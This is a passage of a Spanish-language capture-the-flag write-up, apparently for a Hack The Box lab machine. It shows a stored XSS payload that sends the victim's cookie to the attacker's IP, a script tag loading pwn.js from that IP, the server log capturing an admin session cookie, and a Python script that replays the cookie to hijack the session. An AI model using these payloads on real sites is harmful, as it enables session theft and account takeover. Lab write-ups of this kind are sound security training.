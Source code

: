Si probamos el payload en los tres campos dice "Oops, Alguien está intentando hacer algo sucio"  
Para evitar esto hay que probar campo a campo a ver si la sanitización no se aplica en todos lados.  
Ahí acabamos dando con que el campo "contact phone or email" no aplica dicha medida, así que será por donde se cuele.  

```js
var req1 = new XMLHttpRequest();
req1.open('GET', 'http://10.10.14.12/?cookie=' + document.cookie, false);
req1.send();
```
Este payload lo que hace esque la persona haga una peticón a tu ip de atacante con su cookie:  
```<script src="http://10.10.14.12/pwn.js"></script>```
```console
└─$ sudo python3 -m http.server 80
10.10.10.113 - - [19/Nov/2022 10:32:33] "GET /pwn.js HTTP/1.1" 200 -
10.10.10.113 - - [19/Nov/2022 10:32:33] "GET /?cookie=PHPSESSID=ta4sbdc0an5jkq215m8q5kq2e5;%20LANG=EN_US;%20SINCE=1668850355;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 200 -
```
Al poner esto (PHPSESSID=ta4sbdc0an5jkq215m8q5kq2e5) de cookie dice que hay un error en mi sintaxis sql. 

```python3
#!/usr/bin/python3
import requests
import urllib3; urllib3.disable_warnings()

url1 = "https://intra.redcross.htb/?page=app"
cookie = {"PHPSESSID":"ta4sbdc0an5jkq215m8q5kq2e5"}
sess = requests.session()
req1 = sess.get(url1, cookies=cookie,verify=False)
print(req1.text)
```
Si queremos secuestrar la session entera hay que ponerlo todo:  
```
└─$ php --interactive
php > print(urldecode("cookie=PHPSESSID=ta4sbdc0an5jkq215m8q5kq2e5;%20LANG=EN_US;%20SINCE=    1668850355;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1"));
cookie=PHPSESSID=ta4sbdc0an5jkq215m8q5kq2e5; LANG=EN_US; SINCE=1668850355; LIMIT=10; DOMAIN=admin 
```
Asi que lo mismo en el python pero añadiendo mas campos:  
```python
cookie = {"PHPSESSID":"ta4sbdc0an5jkq215m8q5kq2e5", "LANG":"EN_US", "SINCE":"1668850355", "LIMIT":"10", "DOMAIN":"admin"}
```
----------------------------------
# Part 3: Entrando en el panel de administración 

Haciendo la petición tenemos un mensaje: 
```
** Información sobre cuenta de invitado ** De admin(uid 1) para invitado (uid 5)
Tendras bajos privilegios mientras te tramitamos la petición de credenciales, nuestro sistema de mensajería 
todavía está en fase beta asi que reporta si hay algun error.

** Comportamientos extraños ** de admin para charles(uid 3)
¿Podrias mirar el panel de administración? Esque no se que pasa pero cuando miro los mensajes me salen todo
el rato alertas POP-UP. ¿Sera un virus?  (o sea el alert("XSS") 
   
** Parad de mirar los mensajes de intra ** de penelope(uid 2) para admin
Hola... mira deja de mirar los mensajes de intra que seguro que es por culpa de alguna vulnerabilidad en el sitio.

** Parad de mirar los mensajes de intra ** de admin para penelope
```